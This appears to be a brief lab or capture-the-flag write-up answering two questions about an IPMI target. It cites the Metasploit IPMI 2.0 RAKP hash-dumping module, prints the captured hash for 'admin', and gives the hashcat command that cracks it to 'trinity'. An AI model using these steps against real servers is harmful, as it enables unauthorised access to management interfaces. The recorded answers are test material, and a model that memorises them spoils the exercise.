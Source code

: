# Target
```
10.129.202.5
```

## Q1: What username is configured for accessing the host via IPMI?
Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
Found hash: 
```
admin:d026151682010000af5221e979981fa41114ed34ccbe0fb599a8cfeb4c129c7c73be8fffa1bdad54a123456789abcdefa123456789abcdef140561646d696e:d0c301401527b8e1d03a2d05564b0fa9d372d4fe
```
Ans: `admin`

## Q2: What is the account's clear-text password?
```sh
hashcat -a 0 -m 7300 ipmi_hash.txt rockyou-40.txt --username
```
Ans: `trinity`
